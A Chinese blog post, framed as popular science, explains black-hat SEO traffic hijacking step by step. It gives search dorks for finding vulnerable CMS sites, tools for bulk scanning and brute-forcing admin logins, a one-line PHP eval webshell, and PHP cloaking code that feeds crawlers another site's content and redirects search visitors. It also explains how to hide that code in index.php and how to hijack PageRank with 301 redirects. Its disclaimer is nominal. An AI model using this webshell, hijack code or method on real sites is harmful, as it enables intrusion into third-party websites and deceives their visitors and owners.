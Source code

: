 ```yaml
---
layout: post
title: 如何用黑帽SEO把自己变成一个货真价实的流量贩子。。。
categories:
- 今日头条
tags:
---
```

![](http://p3.pstatp.com/large/7fc00011416749d14ab)

瓜瓜只是科普

并不想教坏你们。。。

![](http://p1.pstatp.com/large/7da000599ce75262a9f)

看到标题的时候，不知道你们什么感觉，是不是觉得麻瓜君一直在带坏你们，把你们引入黑暗的深渊呢？

我们的目的只是为了科普，探索我们不知道的东西而已，当然还是进入科普环节。。。

在互联网的世界里，其实流量劫持并不是什么件新鲜事。所谓流量劫持，无非就是指通过一定技术手段，控制你们的上网行为，让你们打开不想打开的网页，看到不想看的广告，当你们打开了之后，你们的行为就会给劫持者带去源源不断的收入。

什么意思呢？很简单。。。

![](http://p1.pstatp.com/large/7da000599cd047bf0d7)

明明打开的是www.magua12138.com网站，莫名其妙却被跳转至www.fzeme.com的网站；明明想下的是A软件，下载安装后却发现是B软件；还有打开一个App，弹出让人心乱如麻的广告，你们以为电脑手机中毒了？

我就呵呵了，错！或许你们真的错怪了病毒，因为这个时候你们的互联网流量很可能被劫持了。

![](http://p3.pstatp.com/large/7fc0001141595d5443d)

![](http://p1.pstatp.com/large/7fa00011400f8359007)

尽管这种现象很早就存在，也有很多人杜绝或者厌恶，但在“用户就是小绵羊”的环境下，流量劫持始终“野火烧不尽，春风吹又生”。

到底谁在劫持流量？

流量劫持背后的“恶魔之手”究竟什么样？

根据《IT时报》记者调查发现，在互联网世界，流量劫持背后有一个庞大的灰色产业链，仅DNS劫持一种方式，每天被恶意劫持的流量至少有上千万个IP。

![](http://p3.pstatp.com/large/7f9000113878244c61c)

今天我们话题就围绕着“劫持”两个字，随便扯一扯。。。

劫持其实有很多，比如说什么，流量劫持、快照劫持、PR劫持等，其实前几个步骤都一样，就是最后的脚本不同而已。。。

我们按顺序来，因为是劫持别人的站，所以我们要做的第一步肯定是获取劫持站的后台权限，并留下后门，以便日后管理，这个过程就是常说的拿站（webshell）。

从难易度来说，最容易的就是企业站了，因为大多数的企业站都是采用开源系统，很多系统因本身的问题存在诸多安全隐患，比如虐心的dede（我们常用的织梦CMS）。

有些系统的漏洞已经曝光出来，找到这些漏洞的特征和这个漏洞对应的系统，然后去各种渠道搜集使用这个系统的网站，遍历扫描每个站，如果存在这个漏洞，就暴力破解后台账户名和密码。

收集目标网站，最简单的方法是拿漏洞的特征做关键词到搜索引擎去搜，然后把搜索结果页上的网站全部抓下来。熟悉网站的瓜友肯定对下面的关键词非常熟悉了比如说：

Powered by DEDECMS

inurl:HomeMarket.asp

有限公司--Powered by ASPCMS V2.0

用户登陆 inurl:admin/login.asp。。。还有XXX技术支持等等

然后拿抓下来以后就可以对这些网站去进行漏洞了，你们肯定一脸懵逼，是不是想问怎么扫描？

用很多现成的拿站工具可以完成批量的扫描和破解，然而每个工具不能能覆盖所有漏洞，所以需要交叉使用：

御剑后台扫描

wwwscan GUI版

web扫描工具-WVS

椰树WEB漏洞扫描器

Pker多线程后台极速扫描器

Web应用安全漏洞检测工具

Acunetix Web Vulnerability Scanner 8

![](http://p3.pstatp.com/large/7fb0001140af4dd61cd)

如果过程顺利的话，就可以拿到一些网站的后台账户跟密码了，然后就可以正常登陆了。

这个时候你们就需要留一个后门，在网站后台新建一个php文件（用DW），写入一句话木马：<?php eval($_POST['ee']); ?>，通过菜刀（一个非常好用而又强大的webshell管理软件，如“中国菜刀”）添加shell，无异常的话就已经顺利的拿下一个站了。、

接下来在后台写入劫持代码，比如要劫持首页，在后台找一个很隐蔽的地方新建一个php文件，写入类似的代码：

<?php

$httpuser=strtolower($_SERVER['HTTP_USER_AGENT']);

if(strstr($httpuser,'Baiduspider') or strstr($httpuser,'Googlebot') or strstr($httpuser,'Sogou web spider')){

 $url=‘http://www.magua121381.com';$a=file_get_contents($url);echo $a;exit;

}

$httpuser=strtolower($_SERVER['HTTP_REFERER']);

if(strstr($httpuser,'baidu') or strstr($httpuser,'google') or strstr($httpuser,'sogou')){

 $url=‘http://www.magua121382.com';header("Location:$url");exit;

}

?>

我们怎么去理解这句话呢？意思其实非常简单，大致可以这么理解，若蜘蛛来访，则抓取 www.magua121381.com的内容；若来路为搜索引擎，则返回www.magua121382.com的内容，然后上传到网站的根目录。。。

之后在首页文件index.php中调用刚才新建的文件：

<?php

include(“{新建文件的路径}")

?>

当然，www.magua121381.com 和 www.magua121382.com 可以设为同一个网址。（如果你们真这么设置，你们做那么多的目的是什么= =）

![](http://p1.pstatp.com/large/7fb0001140b94613beb)

![](http://p3.pstatp.com/large/7da000599cf2569751c)

这就是快照劫持的简单步骤了，被劫持的站，对蜘蛛访问返回www.magua121381.com的内容，对从搜索引擎搜索过来的用户返回www.magua121382.com的内容，你如果输入网站的域名（网站url），则是本来的页面。一般负责网站管理的人，都只输入url访问网站，index.php也很少关注，所以好长时间才发现，甚至发现不了自己的网站被劫持。

有的时候在百度中搜索很多违禁的词语，会出现一堆政府的网站，但是点进去是却看到各种违禁内容（百度站长平台还专门开了一个“bad case”的帖子专门收集类似的案例），直接输入网址访问，却是正常的内容，若果换一个搜索词从百度点进去，还是正常的内容。这就是在刚才所说的劫持代码的基础上完成的，根据referer词来判断是否返回指定页面，现在百度已经取消referer参数了，所以这东西也就随之失效了，我们略过。。。

进入下一个环节，PR劫持，就是对蜘蛛301到指定的网站，（301就不特别解释了，301重定向的意思，自己上网查一下）从而提升权重。有些新站，做了不到1个月，用站长工具一查，哎哟我去，权重值都在4以上，但网站本身并没多少内容和收录，如果有看到这样的情况，基本是用了PR劫持了。。。

简单来说，PR值的计算是有周期的，假如A网站的PR值是4，B网站是0，我们把A网站劫持到B网站，在PR值计算过后，在取消劫持，那么B网站就拥有了4的PR值，至少能保持到下次计算的时候。。。

最后说一个快照劫持，因为最近看见的比较频繁且很少人知道，利用JS脚本来霸屏搜索引擎。。。

![](http://p3.pstatp.com/large/7f90001138847d59a27)

怎么做到的？脚本怎么写？

![](http://p3.pstatp.com/large/7fd000112d31c026675)

这样改变世界的做法你们真的认为很容易就能实现吗？

事实上的确很容易。。。用一些软件就可以了。

![](http://p3.pstatp.com/large/7da000599d07a346959)

我们来看看这个软件的搜索跳转功能，支持各大搜索引擎，使从任意方式搜索出点击到你网站后，搜索网站页面自动跳转到指定的网站，自定义网站功能支持一级，多级，长尾域名格式。优化来路，默认百度，防止百度蜘蛛被k。

这软件还有一些奇特的功能，看图不说话。。。

![](http://p8.pstatp.com/large/7da000599d1a162f320)

![](http://p3.pstatp.com/large/7f90001138937b4fddb)

![](http://p1.pstatp.com/large/7fb0001140cce151cb3)

![](http://p3.pstatp.com/large/7fb0001140d34d7cfff)

手机也是可以的。。。

![](http://p3.pstatp.com/large/7fa000114010829030a)

![](http://p3.pstatp.com/large/7f90001138a43f76a5e)

这个软件还真是丧心病狂阿。。。

建议很多玩搜索方面的瓜友如果是因为好奇，可以跟着麻瓜君的思路探索一下，但是如果是为了自己的公司，或者是自己所在的企业长远的考虑，建议不要运用以上任何一种手法，到时候别说我没提醒你们哦。

![](http://p1.pstatp.com/large/7da000599d26beb12a1)

今天我们仅仅科普下劫持原理，还有很多的细节没有展开说，比如批量管理webshell，又比如说如何隐蔽踪迹。

如果藏的不是非常隐蔽，基本都会被发现，只是时间长短问题，且作上去的排名都活不了太长时间，而且会带来你意想不到的惩罚，说白了，能获得多大效果，取决于能铺多少量，是个耗费精力、时间的力气活，所以还是专心研究白帽SEO吧。。。

▼

若要转载麻瓜君的文章

记得请署名噢...

投稿邮箱：

ceo@magua12138.com

微信公众号：magua12138

更多内容请登录：

www.magua12138.com